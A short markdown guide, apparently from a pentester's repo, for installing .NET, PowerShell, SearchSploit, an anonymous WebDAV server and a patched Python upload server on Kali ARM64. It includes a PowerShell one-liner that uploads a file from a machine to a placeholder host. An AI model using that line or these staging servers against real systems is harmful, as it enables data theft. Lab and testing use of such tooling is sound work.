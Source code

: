 # Install tools on Kali (Arm64 M1)

## Install .NET 8

Install script `https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual`

```bash
wget https://dot.net/v1/dotnet-install.sh -O dotnet-install.sh
chmod +x ./dotnet-install.sh
./dotnet-install.sh --channel 8.0 --runtime dotnet
export DOTNET_ROOT=~/.dotnet
export PATH=$PATH:$DOTNET_ROOT:$DOTNET_ROOT/tools
# Add permanently to .zshrc
echo "# Install .NET" >> .zshrc
echo "export DOTNET_ROOT=~/.dotnet"  >> .zshrc
echo "export PATH=$PATH:$DOTNET_ROOT:$DOTNET_ROOT/tools"  >> .zshrc
```

## Install Powershell

Install script `https://learn.microsoft.com/en-us/powershell/scripting/install/install-other-linux?view=powershell-7.4#install-as-a-net-global-tool`

```bash
dotnet tool install --global PowerShell
```

## Install ExploitDB and SearchSploit

```bash
sudo apt -y install exploitdb
```

## Install WebDAV

```bash
sudo apt install python3-wsgidav
mkdir /home/kali/webdav
echo "WebDAV test" > /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

## Install Upload server

```bash
pip install uploadserver
```

Patch uploadserver.receive_upload(handler)

* Support single or multiple files
* Support Powershell UploadFile
* `(New-Object Net.WebClient).UploadFile('http://IP/upload', 'some-file.txt');`

```python
# gedit /home/kali/.local/lib/python3.11/site-packages/uploadserver/__init__.py
# patch receive_upload(handler)
if 'file' in form:
    fields = form['file']
elif 'files' in form:
    fields = form['files']
else:
    return (http.HTTPStatus.BAD_REQUEST, 'Field "file" or "files" not found')
```

